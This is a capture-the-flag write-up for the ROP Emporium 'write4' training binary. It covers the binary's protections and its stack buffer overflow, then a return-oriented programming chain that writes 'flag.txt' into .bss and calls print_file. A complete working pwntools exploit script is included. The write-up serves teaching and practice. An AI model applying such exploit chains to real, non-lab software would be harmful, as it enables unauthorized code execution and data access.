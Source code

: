 # write4

Our first foray into proper gadget use.
A useful function is still present, but we'll need to write a string into memory somehow.

## Writeup

We can check if the binary is stripped or not:

```
write4: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=4cbaee0791e9daa7dcc909399291b57ffaf4ecbe, not stripped
```

The binary is not stripped we can see function names.

Now check which checks are enabled in this binary:

```
[*] '/home/kali/ROP-Emporium/write4/write4'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'.'
```

The stack is not executable, so we can't inject a shellcode.

The program in the **main** function call the function **pwnme**:

```c
void pwnme(void)
{
  undefined buffer [32];
  
  setvbuf(_stdout,(char *)0x0,2,0);
  puts("write4 by ROP Emporium");
  puts("x86_64\n");
  memset(buffer,0,32);
  puts("Go ahead and give me the input already!\n");
  printf("> ");
  read(0,buffer,512);
  puts("Thank you!");
  return;
}
```

This function insert **512 bytes** of user input into **32 bytes** of buffer.

The binary also has a function called **print_file**:

```c
void print_file(char *param_1)
{
  char buffer [40];
  FILE *fd;
  
  fd = (FILE *)0x0;
  fd = fopen(param_1,"r");
  if (fd == (FILE *)0x0) {
    printf("Failed to open file: %s\n",param_1);
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  fgets(buffer,33,fd);
  puts(buffer);
  fclose(fd);
  return;
}
```

We need to put our string '**flag.txt**' somewhere, in order to use it as a parameter for the **print_file** function.

Inside the the binary there are these usefull **gadget**:

```
0x0000000000400690 : pop r14 ; pop r15 ; ret
0x0000000000400628 : mov qword ptr [r14], r15 ; ret
0x0000000000400693 : pop rdi ; ret
```

So we can put the string **flag.txt** into the stack, **pop** into the register **r15** and **pop** into the register **r14** the address where to store the string.

After that we can use the gadget **mov qword ptr [r14], r15** that store the string and call the function **print_file** with the address of the stored string.

We can use the **.bss** segment to store the string, we can find its address using:

```bash
objdump -x write4 | grep __bss_start
```

With this result:

```
0000000000601038 g       .bss   0000000000000000              __bss_start
```

This segment is **readable** and **writable**, so it is perfect for our purpose.

We can build the following payload:

```python
buffer_dim = 32
offset = buffer_dim + 8

print_file = exe.symbols['print_file']

rop = ROP(exe)
ret = rop.find_gadget(['ret'])[0]
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]

pop_r14_pop_r15 = rop.find_gadget(['pop r14', 'pop r15', 'ret'])[0]
mov_qword_ptr_r14_r15 = 0x400628    # address of where the gadget is placed

string_address = exe.symbols['__bss_start']

payload = [
    b'a' * offset,
    p64(ret),
    p64(pop_r14_pop_r15),
    p64(string_address),
    b'flag.txt',
    p64(mov_qword_ptr_r14_r15),
    p64(pop_rdi),
    p64(string_address),
    p64(print_file)
]
```

The final exploit will be:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template write4
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'write4')

context.terminal = ["tmux", "splitw", "-h"]

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR



def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)
# RUNPATH:  b'.'

io = start()

buffer_dim = 32
offset = buffer_dim + 8

print_file = exe.symbols['print_file']

rop = ROP(exe)
ret = rop.find_gadget(['ret'])[0]
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]

pop_r14_pop_r15 = rop.find_gadget(['pop r14', 'pop r15', 'ret'])[0]
mov_qword_ptr_r14_r15 = 0x400628    # address of where the gadget is placed

string_address = exe.symbols['__bss_start']

payload = [
    b'a' * offset,
    p64(ret),
    p64(pop_r14_pop_r15),
    p64(string_address),
    b'flag.txt',
    p64(mov_qword_ptr_r14_r15),
    p64(pop_rdi),
    p64(string_address),
    p64(print_file)
]

payload = b''.join(payload)

io.sendlineafter(b'> ', payload)

io.interactive()
```

This will be the output:

```bash
Thank you!
ROPE{a_placeholder_32byte_flag!}
```
